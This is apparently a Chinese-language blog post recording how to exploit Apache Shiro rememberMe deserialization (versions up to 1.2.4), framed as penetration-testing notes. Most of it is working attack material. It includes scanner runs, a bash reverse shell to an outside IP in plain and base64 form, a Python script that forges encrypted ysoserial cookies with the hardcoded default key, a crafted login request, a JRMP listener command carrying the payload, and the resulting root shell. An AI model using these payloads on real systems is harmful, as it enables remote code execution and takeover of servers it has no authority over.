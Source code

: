 ```yaml
---
layout: post
toc: true
title: "「Shiro」:Apache-shiro框架利用整理"
author: Bin4xin
categories:
    - blog
    - 漏洞复现
    - 笔记
    - vulnhub
    - CVE
permalink: /blog/2020/fastjson/UNdeser/
---
```


> 漏洞特征：shiro反序列化的特征：1、在返回包的Set-Cookie的值为「rememberMe=deleteMe」2、Apache Shiro版本<= 1.2.4
现在很多j2ee开发都会采用shiro框架来做一些权限控制，框架的优势是出来了，当然就存在劣势。shiro是我在参加工作后才会慢慢去接触到，从一开始的代审，再到黑盒渗透，再到前一段时间刚结束的HW行动。
第一小结，是我自己在实践中的一些理解和经历，希望能够记录下来；第二小结是在学习中在网上的一些学习过程，当时也记录下来了，故此分为两个小结。


### 验证
在上面的简述中，可以来进行shiro框架的判断，同时，我们可以进一步对shiro框架是否存在反序列化来进行验证：
用到的是<a href="http://www.svenbeast.com/post/tskRKJIPg/">Shiroscan</a>脚本，开源在github上，用法就不多赘述。
```bash
python3 shiro_rce.py https://shiro.vuln.ip/login.html "ping x.dnslog.cn"
 ____  _     _          ____                  
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __  
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \ 
 ___) | | | | | | | (_) |__) | (_| (_| | | | |
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|

                           By 斯文

Welcome To Shiro反序列化 RCE ! 
[*]  开始检测模块 Class1:CommonsBeanutils1
```
然后脚本开始对不同的秘钥进行生成cookie，尝试让机器执行命令。等待脚本在跑的时候或者跑完，看一下dnslog上的dns记录，如果存在记录如下所示，那么就说明存在反序列化漏洞使得机器执行了任意代码，反之则无：
```bash
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:46:35
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
```
#### 不服气
当然有的时候用shiroScan扫结束后并没有记录，即不存在漏洞；但是像我，又不死心，于是又在网上折腾找了另外一个能够跑秘钥的探测脚本-_-
<a href="https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/">作者博客</a>
```bash
python shiro_exp.py https://shiro.vuln.ip/login.html
try CipherKey :4AvVhmFLUs0KTA3Kprsdag==
generator payload done.
send payload ok.
checking.....
checking.....
checking.....
checking.....
vulnerable:true url:https://shiro.vuln.ip/login.html    CipherKey:3AvVhmFLUs0KTA3Kprsdag==
```
当然秘钥对于我们理解shiro反序列化框架也有一定的帮助，shiro的反序列化最初的漏洞来源也是因为秘钥硬编码。

## getshell
通过上面的步骤我们就可以对shiro反序列化做一个判定，肯定是存在RCE漏洞，那么来实现我们的最终目的，GET-shell
一般反弹shell的执行代码`bash -i >& /dev/tcp/47.52.233.92/11111 0>&1`，首先需要把代码进行base64编码，只有经过base64编码后shiro才认得这个命令，通过shiro自己本身的base64解码最终达到执行命令的目的；
转成base64编码->`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny41Mi4yMzMuOTIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}`；像我比较偷懒，就直接在脚本上添加反弹shell，这样的好处就是我们不需要在生成poc的脚本里替换cookie，由脚本自动生成的cookie自动去跑，省事很多
来源：<a href="http://www.jackson-t.ca/runtime-exec-payloads.html">我是转换网址:-)</a>
监听端口等待shell回连（我这里的样例是docker环境）
```bash
nc -lvvp 11111
Listening on [0.0.0.0] (family 0, port 11111)
Connection from 59.110.152.168 47274 received!
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@6d5a7848dbef:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### 学习
#### 工具
使用ysoserial进行流量监听，下面是ysoserial的jar包生成，懂得开发同学都懂。
```bash
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -D skipTests
```
#### how-to-poc
使用poc代码获得对应的rememberMe的cookie值。
```bash
# -*- coding:utf-8 -*-
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```
```bash
D:\bin4xin\code\shiro\shrio-poc\ysoserial\target> python .\shrio-poc.py 47.52.233.92:6666
rememberMe=W8BOhPe8Qdy8FJ5N9genqt4WjZaONr1NQ+dXgDCV1RrGHUwMfd8ljlA9AG64t7vzUesOp7YKsz6EFFHgyrq1qRqUiPFBnEBi/NNNpE2UR8CgMsf1KY2rbBurFv1Gwslv2+SL7hy3YNq9cpPWm5S8o+nJpa6IyI9cZ+n7a+6hjB4Yfnf89u3BLi4AxOXL35SotH2AdSX2iZrWgGAcah9oW21JwpC2zj4YMjsGf2tPYUysP873bYYHuSIohaXf3bcq4YuQajMctVmM3IvjeY5Ggva9QRUvo5B1o0sPNHdXGwn/z9t/KWcSeTWE+Dt2f95a9QjEIoic6s88Tv0SKjY6UdCmTxN3vVE8rs1haiA48R1CuUQQiWa9V28m2qkonX9aUEUl4kTGGvF+Y5eB4MaNTw==
```

抓包，前台登录拦包，勾选`Remember Me`，截获数据包，替换cookie构造数据包：

```bash
POST /doLogin HTTP/1.1
underattack-host: underattack-host:8080
Content-Length: 55
Cache-Control: max-age=0
Origin: http://underattack-host:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://underattack-host:8080/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: rememberMe=RFUadguvSoq4kMm3ZwnkO/MHiokCrqrCURXUqUWaXLBM7/fBF65qvjWDFZeh49zHDRm5oKPU1AhmbEBaYRp3ASrQpHdp7mYrChOi51tmq9qkzWemDnjbUXtp8B6RF1EUNV2q2tKaKlf4AAR1hZIRJGbz4CpLeumNAeWB98f6/T0GaWJGGve9rP6l9/7iU5Y9Xj4ZmSBP6LgMHYF3TJ2DDdTNI4nPITeQI3S+9ol/BmT14Be5m0ENfOkm1cdm3L8Rj/pbeE842Y3nUioEdAXizCrOsCYT+u2QTWHt1YZLmB/xsfQvEV5bRpRJeRv/ps7V00PiXvCeaPQoDs541wqB75+/RRAdqU8TWnJE7YhvQVkxTRLvCjBTtwfkgA3XVA8X+518nh0wSoj8/Ajaoi5MbA==
Connection: close

username=asdmnin&password=asdasd&rememberme=remember-me
```
使用包监听6666端口：
```bash
root@iZj6cgn7odv59wmjjhe6zwZ:/home/tool/shiro_poc/POC-2/ysoserial/target# java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny41Mi4yMzMuOTIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}'
* Opening JRMP listener on 6666
```
发包，我们看到jrmp监听的端口已经有流量回流回来了，如下：
```bash
Have connection from /underattack-host:58272
Reading message...
Is DGC call for [[0:0:0, 356978429], [0:0:0, 2006635131]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
Have connection from /underattack-host:58274
Reading message...
Is DGC call for [[0:0:0, 356978429], [0:0:0, -1104978848], [0:0:0, 2006635131]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
```

以上。





